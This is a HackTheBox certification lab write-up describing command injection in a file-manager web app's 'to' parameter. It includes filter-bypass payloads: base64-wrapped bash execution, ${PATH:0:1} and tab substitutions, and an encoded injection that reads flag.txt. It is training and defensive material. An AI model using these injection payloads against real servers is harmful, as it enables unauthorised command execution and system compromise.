 This is a detailed write-up for the HTB Bug Bounty Hunter Certification’s skill assessments. This write-up series will treat each skill assessment as an individual penetration test, with a full explanation of a specific vulnerability, including remediation recommendations.
Command Injection Skill Assessment

Scenario:
You have been contracted to perform a penetration test for a company, and during your testing, you discover an interesting file manager web application. Since file managers often execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques discussed in this module to detect a command injection vulnerability and then exploit it, bypassing any filters that are in place.

Target in Scope:
94.237.xx.xxx
Recon and Analysis:

First, you want to interact with the application as a normal user to understand its functionality.

The file manager web application appears to be connected to the OS level, allowing us to view files hosted on the server.

https://github.com/user-attachments/assets/4630e27c-bddb-4e8b-a93b-47fd5b1ac5a8

When clicking the tmp folder, the parameter in the URL changes to to=tmp.

https://github.com/user-attachments/assets/59ef09be-f7b8-4d57-ae3a-62aecaf0b1a9

This also happens when visiting a .txt file, with the parameter appearing as to=&view=filename.txt.

https://github.com/user-attachments/assets/380f5e5b-af7d-4f72-b085-d875a704f593

Each file and folder has several functional action buttons, such as the "copy" button.

https://github.com/user-attachments/assets/7d2d989d-c1dc-40cd-80d5-59db260dfaf7

It seems this function allows users to copy files to other directories.

https://github.com/user-attachments/assets/daeecf1b-bf80-4078-a102-71ee641a2e89

The file can be moved using this URL:

http://94.237.49.166:46423/index.php?to=tmp&from=51459716.txt&finish=1&move=1

Once a file is moved, the action cannot be repeated on the same file.

https://github.com/user-attachments/assets/46c09bbc-c89c-4a1c-b950-2270bbf6c6a8

There is also an advanced search option available next to the regular search bar.

https://github.com/user-attachments/assets/80acbefa-01e8-416c-9453-33fc2085bfd4
https://github.com/user-attachments/assets/0983529a-c562-45ef-bbb9-6791d4f1230d
Attack Vector:

After testing the functional areas, we now want to target specific features and URL parameters to see if we can perform a command injection. One such area is the "move file" feature.

Below is the initial move of a file to a directory using the UI and HTTP request.

https://github.com/user-attachments/assets/94daae8f-ce9a-482b-9b92-6fbec09ea931
https://github.com/user-attachments/assets/2d8cddeb-4bb1-4720-a061-6bac9c63af17

Below is the repeated action for moving the same file.

https://github.com/user-attachments/assets/cb117f97-8f43-4e5c-9bf3-dc0b14d97c06
https://github.com/user-attachments/assets/3c20054b-0170-4ff5-a154-528f5eb36ddf

We want to check if the URL parameter is vulnerable to command injection.
Command Injection Techniques:

To inject additional commands into the existing one, we can use the following operators:

https://github.com/user-attachments/assets/8e5a7ced-3d20-453b-9c21-9175d2e7fe26

I tried injecting commands like whoami and ls into the "to" parameter. The error message displayed: "malicious request denied".

https://github.com/user-attachments/assets/1e147d29-cfdb-400e-9811-e61a98f5b7f0
https://github.com/user-attachments/assets/82451731-5b66-4185-b145-1d53d404ac7b

This indicates that basic commands are filtered. Therefore, we need to identify possible filters such as space, blacklisted characters, commands, or WAF filters.

To bypass this, I used command obfuscation with Base64 encoding.

bash<<<$(base64 -d<<<"base64 encoded OS payload")

https://github.com/user-attachments/assets/22448c0a-411a-44c7-8ff2-b9fac3dff2e9
https://github.com/user-attachments/assets/5b6d0267-d673-4229-b934-97ceb20e6007

We successfully executed whoami and obtained the result: www-data. Next, I tested ls -la to list the files.

https://github.com/user-attachments/assets/560881b1-453e-4746-b474-31e947411f67
https://github.com/user-attachments/assets/77d9db20-2325-4098-b28f-4ccd5ff13029
Exploit:

Now that we’ve identified the attack vector by bypassing the filter, we can perform an exploit.

I attempted to view the root directory.

https://github.com/user-attachments/assets/e4370eb5-7f18-490b-a649-145ab6d6e897
https://github.com/user-attachments/assets/cb53bf44-1a46-4127-b883-8a35560f28a5

There are several files, including config.php and index.php. Let’s explore further.

https://github.com/user-attachments/assets/5a87aea9-8c07-4c70-9c76-66608aca0ff1
https://github.com/user-attachments/assets/5bc27cde-d090-4c03-a593-a8dddc535e2d
https://github.com/user-attachments/assets/b144ef9c-9cfb-4b82-b26f-096e92090e35

I couldn’t find the target file, flag.txt, but I moved it to the tmp directory.

${PATH:0:1} = /

${IFS} = space

mv/flag.txt /var/www/html/files/tmp

mv ${PATH:0:1}flag.txt ${PATH:0:1}var${PATH:0:1}www${PATH:0:1}html${PATH:0:1}files${PATH:0:1}tmp

Base64 encoded:

bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w

bash<<<$(base64%09-d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)

https://github.com/user-attachments/assets/ae2ed837-0694-4b6f-8d3e-c9d75efe5024

While the file was moved, I didn’t have permission to read it. However, I now know the location of the flag.txt file.

To bypass character filters, I used this payload:

%26c\a\t%09${PATH:0:1}flag.txt

&cat (horizontal tab) /flag.txt

https://github.com/user-attachments/assets/75d45b6a-43a2-4fba-b380-b1e4c7b0ae99
Consequences:

A command injection vulnerability is one of the most severe types. It allows an attacker to execute OS-level commands on the server, potentially compromising the entire network. When a web application uses user input to execute a system command, an attacker can inject malicious commands and take control of the system.
Remediation:

To prevent command injection vulnerabilities, consider the following measures:

    Avoid using system commands in web applications.
    Implement strict input validation and sanitization.
    Configure the web server properly to minimize the risk of such attacks.
